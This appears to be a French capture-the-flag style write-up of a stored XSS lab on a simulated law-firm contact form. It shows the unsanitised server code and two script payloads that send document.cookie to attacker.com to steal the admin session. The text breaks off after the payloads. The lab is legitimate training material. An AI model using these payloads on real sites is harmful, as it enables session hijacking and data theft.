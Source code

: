 # Writeup - XSS Stored Vulnerability Lab

## 🎯 Objectif du Lab

Ce laboratoire simule un cabinet d'avocats avec une vulnérabilité **XSS Stockée (Stored XSS)** dans le formulaire de contact. L'objectif est d'exploiter cette vulnérabilité pour voler la session administrateur et accéder à des données sensibles.

## 🔍 Analyse de la Vulnérabilité

### Vulnérabilité Identifiée
- **Type** : XSS Stockée (Stored XSS)
- **Localisation** : Formulaire de contact (`/submit-contact`)
- **Cause** : Absence de sanitisation des entrées utilisateur
- **Impact** : Exécution de JavaScript malveillant dans le contexte de l'administrateur

### Code Vulnérable
```javascript
// Dans server.js - ligne 47
db.run(`INSERT INTO messages (id, name, email, subject, message) VALUES (?, ?, ?, ?, ?)`,
       [messageId, name, email, subject, message], (err) => {
    // Aucune sanitisation du paramètre 'message'
});
```

## 🚀 Étapes d'Exploitation

### Étape 1 : Reconnaissance

1. **Accéder au site** : `http://localhost:3206`
2. **Identifier le formulaire de contact** : Page `/contact`
3. **Analyser les champs** : Nom, Email, Sujet, Message

### Étape 2 : Injection du Payload XSS

1. **Aller sur la page Contact**
2. **Remplir le formulaire avec le payload malveillant** :

```html
<script>
// Payload pour voler les cookies de session
fetch('http://attacker.com/steal?cookie=' + document.cookie);
</script>
```

**Ou utiliser ce payload plus avancé :**
```html
<script>
// Payload pour voler les cookies et les envoyer à un serveur d'attaque
var xhr = new XMLHttpRequest();
xhr.open('GET', 'http://attacker.com/steal?cookie=' + encodeURIComponent(document.cookie));
xhr.send();
</script>
```
